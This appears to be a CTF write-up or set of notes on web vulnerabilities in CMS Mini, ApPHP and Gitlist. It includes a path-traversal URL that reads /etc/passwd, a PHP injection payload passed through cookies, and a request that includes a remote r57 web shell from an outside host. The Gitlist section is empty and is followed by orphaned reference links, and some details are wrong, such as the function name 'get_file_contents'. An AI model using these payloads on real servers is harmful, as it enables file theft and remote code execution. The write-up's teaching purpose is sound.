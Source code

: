 
[CMS Mini] is file system to build simple websites. It has [several vulnerabilities] such as [CSRF], RFI, and [XSS].

[CSRF]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
[XSS]: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)


An example of RFI vulnerability in CMS Mini is explored using curl:

```http
http://
[target/IP]/cmsmini/admin/edit.php?path=&name=../../../../../etc/passwd
```

For more examples of exploits, check [1337day] and [this exploit-db].

[1337day]: http://1337day.com/exploit/3256
[several vulnerabilities]: http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2008-2961

[this exploit-db]: http://www.exploit-db.com/exploits/28128/
[CMS Mini]: http://www.mini-print.com/
















### ApPHP and Remote Code Execution

[ApPHP](http://www.apphp.com/) is a blog script. It is known for having  [several vulnerabilities], including [remote code execution] (RCE). An example of RCE exploit for ApPHP [can be seen here]. A good start is to check the PHP's [disable_function](http://php.net/manual/en/ini.core.php#ini.disable-functions) list for stuff to hacker the server.

[several vulnerabilities]: http://www.exploit-db.com/exploits/33030/
[remote code execution]: https://www.owasp.org/index.php/PHP_Top_5#P1:_Remote_Code_Execution

[can be seen here]: http://www.exploit-db.com/exploits/33070/



In this CTF, the challenge was to find what was not in that list. For instance, it was possible to use [$_POST](http://php.net/manual/en/reserved.variables.post.php) and [$_COOKIE](http://php.net/manual/en/reserved.variables.cookies.php) to send strings to functions such as [scandir()](http://php.net/manual/en/function.scandir.php) and [get_file_contents()](http://php.net/manual/en/function.file-get-contents.php):

```http
GET Request: ?asdf);print_r(scandir(implode($_COOKIE))=/
Cookie: 0=include
```

In addition, with a writable directory we can drop a shell in the server (you can use script-kiddies scripts like [r57 shell.net](http://www.r57shell.net/), but in real life, keep in mind that they are super uber [backdoored](http://thehackerblog.com/hacking-script-kiddies-r57-gen-tr-shells-are-backdoored-in-a-way-you-probably-wouldnt-guess/#more-447)).

```http
Post Request: 0=include/myfile.php
Cookie: 0=http://www.r57shell.net/shell/r57.txt
```


### Gitlist and Remote Command Execution


[CTF write-ups git repo]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/
[DEFCAMP CTF Quals]: http://dctf.defcamp.ro/challs
[Remote File Inclusion]: http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion
[TimThumb]: https://code.google.com/p/timthumb/
[exploit-db]: http://www.exploit-db.com/exploits/33990/
[1337day]: http://en.1337day.com/exploit/22391
[packet storm]: http://packetstormsecurity.com/files/127364/Gitlist-Unauthenticated-Remote-Command-Execution.html
[hatriot]: http://hatriot.github.io/blog/2014/06/29/gitlist-rce/
[command injection]: http://cwe.mitre.org/data/definitions/77.html
[allowing remote attackers to execute arbitrary commands via shell]: http://www.websecuritywatch.com/arbitrary-command-execution-in-gitlist/
[Gitlist]: http://gitlist.org/
[here]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/web-400
[unoconv]: http://linux.die.net/man/1/unoconv
[LibreOffice]: http://www.libreoffice.org/
[soffice.bin]: http://www.processlibrary.com/en/directory/files/soffice/66728/
[Railio 4.2]: http://www.getrailo.org/
[ColdFusion]: http://en.wikipedia.org/wiki/Adobe_ColdFusion
[Adobe ColdFusion 11]: http://www.adobe.com/products/coldfusion-family.html
[this]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/web-400
[HTML URL Encoding]: http://www.w3schools.com/tags/ref_urlencode.asp
[jumpespjump]: http://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html
[kaoticcreations]: http://kaoticcreations.blogspot.com/2012/11/hacking-cold-fusion-servers-part-i.html
[cyberguerilla]: https://www.cyberguerrilla.org/blog/?p=18275
[vulnerable to a variety of attacks]: http://www.intelligentexploit.com/view-details.html?id=12750
[gnucitizen]: http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
[hexale]: http://hexale.blogspot.com/2008/07/how-to-decrypt-coldfusion-datasource.html
[infointox]: http://www.infointox.net/?p=59
[directory traversal]: https://www.owasp.org/index.php/Path_Traversal
[500]: http://en.wikipedia.org/wiki/List_of_HTTP_status_codes
[blackhatlib]: http://www.blackhatlibrary.net/Coldfusion_hacking
[paranoia.jar]: https://ccrma.stanford.edu/~eberdahl/Projects/Paranoia/
[Burp]: http://portswigger.net/burp/
[Tamper Data]: https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
[hash-killer]: http://hash-killer.com/
[md5this]: http://www.md5this.com/
[tcpdump]: http://linux.die.net/man/8/tcpdump
[ExifTool]: http://www.sno.phy.queensu.ca/~phil/exiftool/index.html
[Exif]: http://en.wikipedia.org/wiki/Exchangeable_image_file_format
[writeups]: https://github.com/ctfs/write-ups/tree/master/d-ctf-2014/misc-100
[xxd]: http://linuxcommand.org/man_pages/xxd1.html
[Natas post]: http://bt3gl.github.io/exploiting-the-web-in-20-lessons-natas.html
